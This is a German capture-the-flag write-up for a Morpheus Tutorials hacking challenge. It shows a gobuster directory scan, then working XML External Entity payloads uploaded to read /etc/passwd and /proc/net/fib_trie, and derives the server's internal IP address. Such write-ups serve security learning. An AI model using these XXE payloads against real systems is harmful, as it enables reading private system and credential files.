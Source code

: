 # Solution of [HC 0x0c](https://hc.the-morpheus.de/0x0c.html) from [The Morpheus Tutorials](https://the-morpheus.de)

### 1. [Update Funktion](http://the-morpheus.de:20003/upload) finden
```
    $ gobuster -u http://the-morpheus.de:20003 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    Gobuster v1.4.1 OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode : dir
    [+] Url/Domain : http://the-morpheus.de:20003/
    [+] Threads : 10
    [+] Wordlist : /usr/share/wordlists/dirbuster/directory-list-lowercase-
    2.3-medium.txt
    [+] Status codes : 307,200,204,301,302
    =====================================================
    /upload (Status: 200)
```

### 2. Anylse der Update Funktion
Im Quellcode der Update Seite befindet sich ein Kommentar, welcher auf die vom Upload akzeptierte Dateiart ([XML](https://de.wikipedia.org/wiki/Extensible_Markup_Language)) hinweißt. Außerdem deutet er auf eine fehlende Datenvalidierung hin.
```html
<!-- TODO: make XML schema to verify the uploaded data -->
```

### 3. Finden und Ausnutzen der Sicherheitslücke
Anschließend kann geprüft werden ob der Server anfällig für [XML External Entity](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) ist.
Durch die Aunutzung der Sicherheitslücke kann im folgenden Beispiel die Datei `/etc/passwd` ausgelesen werdem:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE api [ <!ELEMENT api ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<api><title>&xxe;</title><url/><description/></api>
```

### 4. IP Adresse anzeigen lassen
Die Netzwerkkonfiguration (in der die IP Adresse enthalten ist) kann unter `/proc/net/fib_trie` durch ausnutzen der gefundenen Sicherheitslücke angezeigt werden.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE api [ <!ELEMENT api ANY >
<!ENTITY xxe SYSTEM "file:///proc/net/fib_trie" >]>
<api><title>&xxe;</title><url/><description/></api>
```

Da die Datei die Netzwerkkonfiguration graphische darstellt ist die Ausgabe schwer zu lesen und zu Interprätieren.

```
Main: +-- 0.0.0.0/0 3 0 5 |-- 0.0.0.0 /0 universe UNICAST +-- 127.0.0.0/8 2 0 2 +-- 127.0.0.0/31 1 0 0 |-- 127.0.0.0 /32 link BROADCAST /8 host LOCAL |-- 127.0.0.1 /32 host LOCAL |-- 127.255.255.255 /32 link BROADCAST +-- 172.19.0.0/16 2 0 2 +-- 172.19.0.0/29 2 0 2 |-- 172.19.0.0 /32 link BROADCAST /16 link UNICAST |-- 172.19.0.6 /32 host LOCAL |-- 172.19.255.255 /32 link BROADCAST Local: +-- 0.0.0.0/0 3 0 5 |-- 0.0.0.0 /0 universe UNICAST +-- 127.0.0.0/8 2 0 2 +-- 127.0.0.0/31 1 0 0 |-- 127.0.0.0 /32 link BROADCAST /8 host LOCAL |-- 127.0.0.1 /32 host LOCAL |-- 127.255.255.255 /32 link BROADCAST +-- 172.19.0.0/16 2 0 2 +-- 172.19.0.0/29 2 0 2 |-- 172.19.0.0 /32 link BROADCAST /16 link UNICAST |-- 172.19.0.6 /32 host LOCAL |-- 172.19.255.255 /32 link BROADCAST 
```

Eine interne (nicht lokale) IP Adresse ist bestimmten Adressbereichen zuzuweisen.
```
   10.0.0.0 -  10.255.255.255         (10.0.0.0/8)
 172.16.0.0 -  172.31.255.255         (172.16.0.0/12)
192.168.0.0 - 192.168.255.255         (192.168.0.0/16)
```
Die kleinste Adresse eines Adressbereiches ist die Netzadresse, die größte die Broadcast Adresse. Daher können manche von den gefundenen Adressen ausgeschlossen werden.

Die letzte übrig bleibende IP Adresse ist die `172.19.0.6` 
